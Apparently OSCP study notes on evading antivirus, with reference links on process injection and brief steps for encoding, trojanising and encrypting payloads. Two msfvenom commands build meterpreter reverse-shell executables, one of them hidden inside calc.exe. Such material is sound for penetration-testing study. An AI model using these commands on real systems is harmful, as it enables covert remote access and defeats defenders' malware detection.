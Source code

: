 # Bypassing Antivirus

## Additional Resources

* [https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing\_antivirus.html](https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing_antivirus.html)
* [https://www.shellterproject.com/](https://www.shellterproject.com/)
* [https://upx.github.io/](https://upx.github.io/)
* [https://enigmaprotector.com/](https://enigmaprotector.com/)
* [https://en.wikipedia.org/wiki/Dead\_code](https://en.wikipedia.org/wiki/Dead_code)
* [https://en.wikipedia.org/wiki/Executable\_compression](https://en.wikipedia.org/wiki/Executable_compression)
* [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
* [https://blog.f-secure.com/memory-injection-like-a-boss/](https://blog.f-secure.com/memory-injection-like-a-boss/)
* [https://en.wikipedia.org/wiki/Windows\_API](https://en.wikipedia.org/wiki/Windows_API)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
* [https://en.wikipedia.org/wiki/Handle\_\(computing\)](https://en.wikipedia.org/wiki/Handle_%28computing%29)
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
* [https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)
* [https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/](https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/)
* [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)

## How to Find which AV Detects Malware

* find out which AV the target uses.
* upload malware to [virtustotal.com](http://virtustotal.com/) and see if the specific AV finds it

## Encoding

* can be done with msfvenom and metasploit
* notice how we set the -e flag here, and then use the shikata\_ga\_nai encoding
* not that effective since antivirus-vendors have access too

### Example

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

## Embed in Non-Malicious File

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o bad_calc.exe
```

## Encrypting the malware

* encrypt the malware and radically change the signature
* Hyperion is a great tool for malware encryption

